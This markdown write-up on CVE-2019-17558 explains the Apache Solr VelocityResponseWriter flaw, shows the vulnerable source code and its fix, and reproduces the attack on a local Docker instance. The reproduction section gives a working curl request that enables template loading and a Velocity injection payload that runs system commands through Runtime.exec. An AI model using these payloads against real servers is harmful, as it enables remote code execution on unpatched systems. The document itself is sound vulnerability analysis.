





# CVE-2019-17558 CWE-74 Solr RCE

## Vulnerability Background
- **Solr :** A high-performance, scalable open-source enterprise-grade search engine platform built on Apache Lucene. It uses inverted index technology, enabling fast and efficient full-text retrievals of massive data, supporting import and indexing of various data formats (such as JSON, XML, etc.). Solr offers powerful query functions, including full-text search, filtered queries, sorting, grouping, and more, flexibly meeting different search needs. It also features distributed search and index replication functions, enabling high availability and load balancing, widely used in e-commerce search, content management, data analysis, and many other fields, helping enterprises enhance search experience and data processing capabilities.
- **Core:** In Solr, the Core is the basic unit for data indexing and searching. It includes a complete set of resources for storing and retrieving data, such as configuration files (like solrconfig.xml and schema.xml) for defining index policies, field types, and more. A single Solr instance can contain multiple Cores, each independently managing different data sets, making data organization and processing more flexible. This facilitates indexing and querying operations for different business needs or data types, making it a key component for efficient search services.
- **Velocity Template:** In Solr, the Velocity template is used to dynamically generate display pages of search results to meet personalized needs across different application scenarios. It combines the flexibility of the Velocity engine, allowing control over how search results are presented through custom templates, such as displaying document fields or sectioned information in specific formats within the web interface. Velocity templates use simple template syntax to access Solr's response data (such as documentation, query parameters, facet statistics, etc.), and dynamically construct output content through instructions and variables. This template mechanism allows front-end developers to customize the user interface independently of backend logic without modifying Solr's core code, but must pay attention to its security configuration to guard against potential code injection risks.
- **CWE-74**, also known as Command Injection (CSI) vulnerability, is a serious software security flaw. This vulnerability can be caused when an application uses input from an untrusted source when building OS commands without sufficient verification and cleanup. For example, in web applications, if user input is directly concatenated into the system command execution string, attackers can carefully construct the input and insert malicious commands to cause the system to perform unauthorized operations, such as obtaining sensitive information, deleting key files, or even taking full control of the server, seriously threatening the system's integrity and availability.

## Vulnerability Mechanism
Apache Solr 5.0.0 to Apache Solr 8.3.1 are vulnerable to attacks executed remotely via VelocityResponseWriter. Velocity templates can be provided via the Velocity template in the configset 'velocity/' directory, or as a parameter. User-defined configsets may contain renderable or potentially malicious templates. By default, templates provided by parameters are disabled, but you can enable them by defining a response writer and setting the setting to "true" to set "params.resource.loader.enabled".

## Vulnerability Location
Analyzing the Solr 8.2.0 source code.

At Solr \contrib \velocity \src \java \org \apache \solr \response  \VelocityResponseWriter .java files are used to process Solr query responses and merge them with the Velocity template (.vm file) to generate the final output. Line 91 of the init method is used to initialize the Response Writer configuration.

At line **113** of this method, read the configuration of solr.resource.loader.enabled from the solrconfig.xml file, line **114**. If not set in the configuration, it defaults to true (enabled), allowing custom templates. That is, the parameter loader was not forcibly closed during initialization, allowing attackers to dynamically enable it via API, which is the **vulnerability point**.

```java
@Override
  public void init(NamedList args) {
    fileResourceLoaderBaseDir = null;
    String templateBaseDir = (String) args.get(TEMPLATE_BASE_DIR);

    if (templateBaseDir != null && !templateBaseDir.isEmpty()) {
      fileResourceLoaderBaseDir = new File(templateBaseDir).getAbsoluteFile();
      if (!fileResourceLoaderBaseDir.exists()) { // "*not* exists" condition!
        log.warn(TEMPLATE_BASE_DIR + " specified does not exist: " + fileResourceLoaderBaseDir);
        fileResourceLoaderBaseDir = null;
      } else {
        if (!fileResourceLoaderBaseDir.isDirectory()) { // "*not* a directory" condition
          log.warn(TEMPLATE_BASE_DIR + " specified is not a directory: " + fileResourceLoaderBaseDir);
          fileResourceLoaderBaseDir = null;
        }
      }
    }

    // params resource loader: off by default
    Boolean prle = args.getBooleanArg(PARAMS_RESOURCE_LOADER_ENABLED);
    paramsResourceLoaderEnabled = (null == prle ? false : prle);

    // solr resource loader: on by default
// 113 lines ********** Reading configuration from solrconfig.xml file******************************
    Boolean srle = args.getBooleanArg(SOLR_RESOURCE_LOADER_ENABLED);
// 114 lines ********** If not set in the configuration, default is true (enabled), allowing custom templates **********
    solrResourceLoaderEnabled = (null == srle ? true : srle);

    initPropertiesFileName = (String) args.get(PROPERTIES_FILE);

    NamedList tools = (NamedList)args.get("tools");
    if (tools != null) {
      for(Object t : tools) {
        Map.Entry tool = (Map.Entry)t;
        customTools.put(tool.getKey().toString(), tool.getValue().toString());
      }
    }
  } 
```

## Remediation
**Fixed version**: Apache Solr ≥ 8.4.0

Remove VelocityResponseWriter from the _default configset and by default disable its ability to load templates via request parameters.

1. In solr \server \solr \configsets\_default \conf \solrconfig .xml, remove Velocity-related content from the default configuration _default to create the newly deployed Solr The instance will not load the Velocity template feature by default, nor will it provide the /browse interface.

2. Modify the solr \contrib \velocity \src \java \org \apache \solr  \response \VelocityResponseWriter .java Pages 113-114 of the document. This no longer reads solrconfig.xml files. It reads Java System Properties. This means you must set Solr/JVM using command-line parameters when starting it, and if not set in system properties, the default is `false` (off).

   ```java
    // solr resource loader: off by defaultAdd commentMore actions
       Boolean srle = Boolean.getBoolean(SOLR_RESOURCE_LOADER_ENABLED);
       solrResourceLoaderEnabled = (null == srle ? false : srle);
   ```

## Affected Versions
**Affected versions:** Apache Solr 5.0.0 to 8.3.1

**Impact Component:** Velocity template

**Environment Requirements:** There is at least one created Core (i.e., an index repository instance) in Solr; otherwise, the request URL structure will not include a kernel name, causing the request to fail. The core can be empty, and it's okay if there is no document data.

## Environment Setup
1. Start the Docker environment, Solr version 8.2.0, and listen port 8983

   

2. There is a core named demo in the container, and XML, JSON, and CSV files are imported into this Solr core. Use the following command to view all cores:

   ```bash
   curl http://127.0.0.1:8983/solr/admin/cores?indexInfo=false&wt=json
   ```

   

## Vulnerability Reproduction
1. Use the curl command to send the JSON payload to Solr's Config API, enable params.resource.loader.enabled, which enables VelocityResponseWriter and allows custom templates.

   ```bash
   curl -X POST \
     -H "Content-Type: application/json" \
     -d '{
       "update-queryresponsewriter":{
         "startup":"lazy",
         "name":"velocity",
         "class":"solr.VelocityResponseWriter",
         "template.base.dir":"",
         "solr.resource.loader.enabled":"true",
         "params.resource.loader.enabled":"true"
       }
     }' \
     http://127.0.0.1:8983/solr/demo/config
   ```

   

2. By injecting the id command into the Velocity template, the returned result indicates that the id command was successfully executed on the server as root.

   ```bash
   curl -g 'http://127.0.0.1:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end'
   ```

   

## PoC Analysis
**Execution Process**: Get the Solr Core name -> send a configuration update request to Solr, enable VelocityResponseWriter -> and dynamically execute incoming system commands using the Velocity template language.

Execute the EXP code, enter Solr's IP and port to get the command line:

```bash
python CVE-2019-17558-EXP.py
```



## References
[NVD - CVE-2019-17558](https://nvd.nist.gov/vuln/detail/CVE-2019-17558#range-16432232)

[Apache Solr 8.2.0 - Remote Code Execution - Java webapps Exploit](https://www.exploit-db.com/exploits/47572)

[solr Remote Command Execution (CVE-2019-17558) - CSDN Blog](https://blog.csdn.net/youthbelief/article/details/121083848)

[CVE-2019-17558 source code analysis and vulnerability reproduction - CSDN Blog](https://blog.csdn.net/2303_80022567/article/details/148337968)
